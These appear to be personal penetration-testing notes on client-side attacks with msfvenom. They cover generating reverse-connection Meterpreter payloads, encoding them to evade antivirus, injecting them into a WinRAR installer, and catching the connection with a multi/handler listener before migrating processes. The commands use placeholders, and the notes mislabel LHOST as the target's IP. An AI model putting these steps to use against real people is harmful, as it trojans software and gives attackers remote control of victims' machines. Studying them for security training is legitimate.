 - Attacks that involve coercing a client to execute a malicious payload on their system that connects back to the attacker when executed.

## Generate Payload w/ #tools/payloads/msfvenom 
*msfvenom is made up of msfpayload and msfencode*
- List payloads
	```
	msfvenom --list payloads
	```
- Payload generation steps
	- Check the target OS
	- Check the architecture
	- Meterpreter or something else
	- How do you want the reverse connection
- Payload types:
	- Staged Payload: `.../.../meterpreter/...`
	- Unstaged Payload: `.../.../meterpreter_...`
- Generate a payload:
	```
	msfvenom \
	-a x86 \ 
	-p <payload_type> \
	LHOST=<target_ip> \
	LPORT=<target_port> \
	-f <output_type> > <file>
	```
- Output file formats
	```
	msfvenom --list formats
	```
- Transfer these files easily by starting a web server and the downloading them on the target machine.
- Start a listener on your machine before running the executable on target
	```
	msfconsole> use multi/handler
	<set options>
	```

## Encoding Payloads w/ Msfvenom
- AVs use signatures to detect malicious files
- Some older AVs can be evaded by encoding our payloads
- List all encoders
	```
	msfvenom --list encoders
	```
- Two best encoders
	- Powershell Base 64
	- Shikata ga nai
- Encoding
	```
	msfvenom -p <payload> \
	LHOST=<target_host> \
	LPORT=<target_port> \
	-i <iterations | beyond 10 not useful> \
	-e <encoder> \
	-f <output_type> > <output_file> \
	```
- Then the same as with normal msfvenom payload.

## Injecting Payloads Into Portable Executables
- Use the `-x` (template) or `-k` (keep)
- Injecting in WinRAR installation
```
	msfvenom -p <payload>
	LHOST=<ip>
	LPORT=<port>
	-e <encoder>
	-i 10
	-f <output_file>
	-x <file into which payloads needs to be injected> > <output _file>
```
*`-k` might or might not work*
- This maintains the metadata of the original file.
- With `-t` you wont be able to run the original installer but with adding `-k` you can do that
- As soon as you get access of the target machine on metasploit, `migrate` to another process.

